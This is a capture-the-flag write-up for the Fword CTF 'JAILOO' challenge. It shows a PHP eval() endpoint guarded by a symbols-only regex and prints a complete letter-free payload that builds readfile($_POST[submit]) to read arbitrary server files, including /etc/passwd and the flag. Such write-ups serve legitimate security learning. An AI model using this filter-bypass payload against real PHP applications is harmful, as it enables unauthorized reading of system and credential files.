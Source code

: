 
# Writeup JAILOO from fword ctf

We have the source of a php file that allow us execute commands via php eval(), the problem is a regex that only allow a few characters:
```
if(preg_match_all('/^(\$|\(|\)|\_|\[|\]|\=|\;|\+|\"|\.)*$/', $cmd, $matches)){
	echo "<div class=\"success\">Command executed !</div>";
	eval($cmd);
```
This basically means that we need to create a payload without using letters or numbers, just with ``&"+=()[]``
So let's go I have coded a script that convert strings to that characters using the idea of getting an A and a from a php object like Array. We can get the "A" from index 0 and "a" from index 3.
With that I started with SYSTEM:

![f6d453f66866661cfea748c00e914fb6.png](/_resources/a515719da83441db93350317ca1a10bf.png)

But apparently it was not enabled y tried with asset, but it was disabled too.

So I end up using readfile(), As the server requires only 2 arguments I reused the submit variable to send the file I want to read. This means we need a payload like ``readfile($_POST[submit])``.

So let's create the payload I started with readfile:

![75dd983c25fd8db3c5d73810646ce083.png](/_resources/9627fd6e073e4d7cb6ecd9ba7c6bc5ab.png)

now _POST :

![19eb173e5e67667992ef9881d061e3b9.png](/_resources/4d06f3ebf6db44acbde7ac121d854f2e.png)

And finally submit:

![f9c66e3add3af3f9ce8bc6a4321daa4e.png](/_resources/e54ea12e4c52488890b4b569621437bb.png)

Adding alltogether we get our final pyaload:

```
$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$____.=$__;$__=$_;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$____.=$__;$______=$____;$_="".[];$_=$_[""];$__=("+"=="+");$__=$__+$__+$__;$____="".[];$___=$____[$__];$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_______=$____;$_____="_";$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$_____.=$__;$_=$$_____;$______($_[$_______]);
```

We just need to go and try the files we want to read using the POST parameter submit

trying with /etc/passwd:

![14897da3858336a65ed21ef670b184b6.png](/_resources/4f7d730bae1b450bbb4e5d05c5d66737.png)

Getting the flag:

![6e1118665f791a0eb24657b6f446faba.png](/_resources/e46d23c3bc7a4d24aded3789fe054d95.png)
